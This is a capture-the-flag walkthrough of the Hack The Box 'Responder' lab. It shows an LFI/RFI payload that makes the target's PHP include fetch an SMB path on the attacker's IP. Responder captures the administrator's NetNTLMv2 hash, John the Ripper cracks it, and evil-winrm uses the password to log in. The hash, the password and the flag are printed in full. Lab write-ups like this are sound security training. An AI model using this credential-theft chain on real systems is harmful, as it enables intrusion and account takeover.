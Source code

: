 ```yaml
---
title: "[HTB] Responder"
author: "Wook Lee"
date: "2024-07-13"
tags: ["Hack The Box"]
---
```


#### When visiting the web service using the IP address, what is the domain that we are being redirected to?

```
unika.htb
```

The website has redirected the browser to a new URL, and my host doesn't know how to find `unika.htb`. This webserver is employing name-based Virtual Hosting for serving the requests.

`Name-Based Virtual Hosting` is a method for hosting multiple domain names on a single server. The web server checks the domain name provided in the `Host` header field of the HTTP request and sends a response according to that.

![alt text](image.png#center)

<br>

The `/etc/hosts` file is used to resolve a hostname into an IP address & thus we will need to add an entry for this domain to enable the browser to resolve the address for `unika.htb`. That's why the screen is currently black showing nothing.

Entry in the `/etc/hosts` file:

`echo "10.129.172.140   unika.htb" | sudo tee -a /etc/hosts`

![alt text](image-2.png#center)

<br>

After we had appended the entry, I refreshed the page and the website now showed everything properly.
![alt text](image-3.png#center)

<br>

#### Which scripting language is being used on the server to generate webpages?

```
PHP
```

![alt text](image-1.png#center)

<br>

#### What is the name of the URL parameter which is used to load different language versions of the webpage?

```
page
```

![alt text](image-4.png#center)

<br>

#### Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) Vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

```
../../../../../../../../windows/system32/drivers/etc/hosts
```

<br>

#### Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

```
//10.10.14.6/somefile
```

LFI or Local File Inclusion occurs when an attacker is able to get a website to include a file that was not intended to be an option for this application. A common examples is when an application uses the path to a file as input. If the applications treats this input as trusted, and the required sanitary checks are not performed on this input, then the attacker can exploit it by using the `../` string in the inputted file name and eventually view sensitive files in the local file system.

RFI or Remote File Inclusion is similar to LFI but in this case it is possible for an attacker to load a remote file on the host using protocols like HTTP, FTC, etc.

<br>

#### What does NTLM stand for?

```
New Technology LAN Manager
```

NTLM is a collection of authentication protocols created by Microsoft. It is a challenge-response authentication protocol used to authenticate a client to a resource on an Active Directory domain.

<br>

#### Which flag do we use in the Responder utility to specfiy the network interface?

```
-I
```

![alt text](image-5.png#center)

<br>

We just saw that `LFI` is possible as we can view the contents of the `C:\windows\system32\drivers\etc\hosts` file in the response.
The file inclusion was made possible because in the backend the `include()` method of PHP is being used to process the URL parameter `page` for serving a different webpage for different languages.

In the PHP configuration file `php.ini`, "allow_url_include" wrapper is set to "Off" by default, indicating that PHP does not load remote HTTP or FTP URLs to prevent remote file inclusion attacks. However, even if `allow_url_include` and `allow_url_fopen` are set to "Off", PHP will not prevent the loading of SMB URLs. In our case, we can misuse this functionality to steal the NTLM hash.

Verify that the `Responder.conf` is sent to listen for SMB requests. With the configuration file ready, we can proceed to start Responder with `python3`, passing in the interface to listen on using the `-I` flag.

![alt text](image-6.png#center)

<br>

Starting Responder by running the following command: `sudo python3 Responder.py -I tun0`

![alt text](image-7.png#center)

<br>

With the Responder server ready, we tell the server to include a resource from our SMB server by setting the `page` parameter as follows via the web browser.

`http://unika.htb/?page=//10.10.14.28/somefile`

![alt text](image-8.png#center)

<br>

Now we let's crack the hash using the John the Ripper.

<br>

#### There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as 'john', but the full name is what?

```
John the Ripper
```

<br>

#### What is the password for the administrator user?

```
badminton
```

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ echo "Administrator::RESPONDER:8a9c5ae98bb0afe8:B5337356E784F427FCA011E764465155:010100000000000000091E577FD5DA01F2AE6AA5DEA6
0C990000000002000800430044005500380001001E00570049004E002D0058004F004100460043004F0052005500550049004A0004003400570049004E002D005
8004F004100460043004F0052005500550049004A002E0043004400550038002E004C004F00430041004C000300140043004400550038002E004C004F00430041
004C000500140043004400550038002E004C004F00430041004C000700080000091E577FD5DA01060004000200000008003000300000000000000001000000002
0000031C85E41ABB6A4BB8A30F1CF440450559198FFDF38BC3047031571CB1CA793290A0010000000000000000000000000000000000009002000630069006600
73002F00310030002E00310030002E00310034002E00320038000000000000000000" > hash.txt
```

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ john -w=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
badminton        (Administrator)
1g 0:00:00:00 DONE (2024-07-14 00:02) 100.0g/s 819200p/s 819200c/s 819200C/s 123456..whitetiger
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

<br>

#### We'll use a Window service (i.e. running on the box) to remotely across the Responder machine using the password we recovered. What port TCP does it listen on?

```
5985
```

![alt text](image-9.png#center)

<br>

#### Submit root flag

```
ea81b7afddd03efaa0945333ed147fac
```

We will connect to the WinRM service on the target and try to get a session. Because Powershell isn't installed on Linux by default, we'll use a tool called `Evil-WinRM`.

`evil-winrm -i 10.129.172.140 -u administrator -p badminton`

![alt text](image-10.png#center)

<br>

![alt text](image-11.png)
